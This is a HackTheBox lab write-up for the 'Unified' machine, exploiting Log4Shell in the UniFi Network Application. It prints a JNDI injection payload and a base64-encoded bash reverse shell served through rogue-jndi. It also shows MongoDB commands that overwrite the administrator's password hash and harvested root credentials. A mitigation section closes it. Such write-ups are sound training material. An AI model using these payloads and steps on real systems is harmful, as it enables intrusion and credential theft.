


# Unified - HackTheBox Writeup

**Date:** 2026-04-15
**OS:** Linux
**IP Address:** 10.129.96.149
**Difficulty:** Tier 1 (Easy/Starting Point)

---

# 1. Executive Summary

The machine **Unified** focuses on the exploitation of the **Log4Shell** (CVE-2021-44228) vulnerability within the **UniFi Network Application**. By injecting a malicious JNDI payload into a login parameter, initial access is gained. Privilege escalation is achieved through two main stages: first, by manipulating the back-end **MongoDB** database to gain administrative access to the UniFi dashboard, and second, by harvesting SSH credentials from the dashboard's site settings to gain full `root` access to the system.

## 1.1. Exploitation Summary

1.  **Reconnaissance**: Nmap identifies UniFi Network Application on port 8443 and support services on 8080 and 6789.
2.  **Vulnerability Verification**: Use `tcpdump` to confirm the Out-of-Band (OOB) LDAP callback via the `remember` parameter.
3.  **Initial Access**: Deploy a `rogue-jndi` server to serve a malicious Java class, triggering a reverse shell via a Base64-encoded bash payload.
4.  **Database Enumeration**: Access the local MongoDB instance on port 27117 to query the `ace` database.
5.  **Admin Password Reset**: Identify the administrator's `ObjectId` and update the `x_shadow` field with a known SHA-512 hash.
6.  **Credential Harvesting**: Log in to the UniFi dashboard and extract the `root` SSH password from the "Device Authentication" settings.
7.  **System Access**: SSH into the target as `root` using the harvested credentials to capture the final flag.

---

# 2. Reconnaissance & Enumeration

## 2.1. Nmap Scan Results

**Command:**
```bash
nmap -sC -sV -p- -oN nmap/Unified 10.129.96.149
```

| Port | Service | Version | Technical Significance |
| :--- | :--- | :--- | :--- |
| 22 | SSH | OpenSSH 8.2p1 | Standard SSH access for remote management. |
| 6789 | IBM-DB2 | - | Used for UniFi mobile app discovery and DB connections. |
| 8080 | HTTP | Apache Tomcat | UniFi "Inform" port used by devices to communicate with the controller. |
| 8443 | HTTPS | UniFi Network | The primary management interface (web GUI). |

### Service Analysis
The **UniFi Network Application** on port 8443 is the primary target. Previous research indicates that older versions of this application are highly susceptible to Log4Shell (CVE-2021-44228) due to the underlying Java Log4j library processing JNDI strings in log messages (specifically in the login and API paths).

---

# 3. Initial Access

## 3.1. Log4Shell (CVE-2021-44228) Analysis
The vulnerability exists because Log4j (v2.0-beta9 to v2.14.1) allows for recursive lookup evaluation. When a string like `${jndi:ldap://attacker.com/a}` is logged, Log4j uses the **Java Naming and Directory Interface (JNDI)** to reach out to the specified LDAP server. If the server returns a malicious Java object, the application will download and execute it.

### Step 1: Vulnerability Verification (OOB Callback)
We target the `remember` parameter in the login API request. We can verify the callback by listening for traffic on the standard LDAP port (389).

**Listener:**
```bash
sudo tcpdump -i tun0 port 389
```

**Injection Payload (sent via Burp Suite or cURL):**
```json
{
  "username": "admin",
  "password": "password",
  "remember": "${jndi:ldap://10.10.14.240/o=tomcat}"
}
```
*Observation:* `tcpdump` shows an incoming connection from `10.129.96.149`, confirming that the application is evaluating JNDI strings.

---

## 3.2. Exploitation Path

### Step 1: Building the Exploit Server
We use **Rogue-JNDI**, a tool designed to set up a malicious LDAP server that serves redirection to various Java exploitation classes.

**Build Commands:**
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

### Step 2: Crafting the Reverse Shell Payload
To avoid script breakages from special characters (like `&` and `>`), we wrap our reverse shell in a Base64 encoding.

**Command:**
```bash
echo 'bash -c bash -i >& /dev/tcp/10.10.14.240/4444 0>&1' | base64
# Result: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjQwLzQ0NDQgMD4mMQo=
```

### Step 3: Launching the Attack
We start the Rogue-JNDI server. We specify the command to dekode the Base64 string and pipe it back into bash for execution.

**Command:**
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMjQwLzQ0NDQgMD4mMQo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.240"
```

### Step 4: Gaining a Shell
By sending the JNDI payload to the `remember` parameter again (pointing to port 1389), we receive a callback on our `nc -lnvp 4444` listener. We upgrade the shell for stability:
```bash
script /dev/null -c bash
# Type CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

---

# 4. Privilege Escalation

## 4.1. MongoDB Post-Exploitation
The UniFi application stores its configuration and user data in a local **MongoDB** instance. 

**Enumeration:**
```bash
ps aux | grep mongo
# Port identified: 27117
```

### Step 1: Data Harvesting
We query the `ace` database to find all registered users. This reveals several user accounts (michael, Seamus, warren, james, administrator) and their password hashes.

**Command:**
```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

The `administrator` account is our target. We extract its `_id` (ObjectId) to ensure our update query is precise.
*   **Target ObjectId**: `61ce278f46e0fb0012d47ee4`

### Step 2: Password Hash Injection
The `x_shadow` field contains the SHA-512 `crypt(3)` hash. We generate a new hash for `Password1234` and overwrite the administrator's entry.

**Hash Generation:**
```bash
mkpasswd -m sha-512 Password1234
# Result: $6$r6ylln2DpE4uFwkT$shGiWO6qjgNevY6Hot3G0ispgk9CzJJZaupu7NX/wbO4MhNjXidrLbyPEZFekveZWXF2EppYu4vKMcqLqYgFM.
```

**Database Update:**
```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$r6ylln2DpE4uFwkT$shGiWO6qjgNevY6Hot3G0ispgk9CzJJZaupu7NX/wbO4MhNjXidrLbyPEZFekveZWXF2EppYu4vKMcqLqYgFM."}})'
```

---

## 4.2. Harvesting Site Credentials
With the administrator password changed to `Password1234`, we log into the web interface at `https://10.129.96.149:8443`.



1.  **Dashboard Access**: Navigate to the **Settings** cog (bottom left).
2.  **Site Settings**: Ensure you are in the **Site** tab.
3.  **Device Authentication**: Scroll to the bottom to find the credentials used by the controller to manage UniFi devices (APs, Switches, etc.).



*   **Username**: `root`
*   **Password**: `NotACrackablePassword4U`

---

## 4.3. Final System Access (Root)
UniFi applications often reuse these "Device Authentication" credentials for the underlying OS root account.

**Command:**
```bash
ssh root@10.129.96.149
# Password: NotACrackablePassword4U
```

**Flags Captured:**
*   **User Flag**: `6ced1a6a89e666c0620cdb10262ba127` (Found in `/home/michael/user.txt`)
*   **Root Flag**: `e50bc93c75b634e4b272d2f771c33681` (Found in `/root/root.txt`)

---

# 5. Credentials & Loot Summary

| Username | Password / Hash | Source | Notes |
| :--- | :--- | :--- | :--- |
| unifi | - | Log4Shell RCE | Limited service account. |
| administrator | Password1234 | MongoDB Reset | Gained access to web GUI. |
| michael | [Hash] | MongoDB Enumeration | Local user account. |
| root | NotACrackablePassword4U | Dashboard Settings | Full system control. |

---

# 6. Mitigation Strategies

1.  **Update Log4j**: Ensure the UniFi Network Application is running version **6.5.54** or higher.
2.  **JVM Hardening**: Disable JNDI lookups globally by adding `-Dlog4j2.formatMsgNoLookups=true` to the Java startup options.
3.  **Network Segregation**: Restrict access to ports `6789` and `27117` to localhost only.
4.  **Credential Management**: Avoid using the same credentials for "Device Authentication" and the OS system administration. Use a centralized, encrypted password manager for administrative secrets.
